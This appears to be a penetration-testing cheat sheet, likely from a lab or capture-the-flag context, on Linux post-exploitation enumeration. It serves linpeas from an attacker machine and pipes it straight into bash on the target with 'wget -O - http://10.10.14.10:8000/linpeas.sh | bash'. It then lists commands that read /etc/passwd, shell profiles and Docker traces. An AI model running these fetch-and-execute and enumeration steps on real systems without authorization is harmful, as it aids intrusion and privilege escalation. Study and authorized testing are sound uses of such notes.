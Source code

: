 <br>

## Automated enumeration
Download `linpeas`
```bash host a python server
wget https://raw.githubusercontent.com/Cerbersec/scripts/master/linux/linpeas.sh -O ~/tools/linpeas.sh
cd ~/tools
chmod +x linpeas.sh
python3 -m http.server 8000
```
```bash run the script without writing to the disk
wget -O - http://10.10.14.10:8000/linpeas.sh | bash
```
```bash save the script and output
wget http://10.10.14.10:8000/linpeas.sh -O /dev/shm/linpeas.sh
bash /dev/shm/linpeas.sh > /dev/shm/linpeas.out
```

<br>

## System info
```bash
# issue, release
cat /etc/issue
cat /etc/*-release

# distribution, version number
cat /etc/os-release

# kernel
uname -a
uname -smr

# arch
file /bin/bash
```
```bash
# system name
hostname

# users
cat /etc/passwd | grep 'sh$'

# environment
cat /etc/profile
cat /etc/bashrc
cat ~/.bash_profile
cat ~/.bashrc
cat ~/.bash_logout
env
set
ls -lsa ~/.Xauthority # display misconfiguration?
```
Open files
```bash
sudo lsof
```
Docker environment
```bash
grep -Ri docker /proc --color=auto 2>/dev/null
ls -lsah /etc | grep -i docker
```
Installed applications
```bash
ls -lsah /usr/bin/
```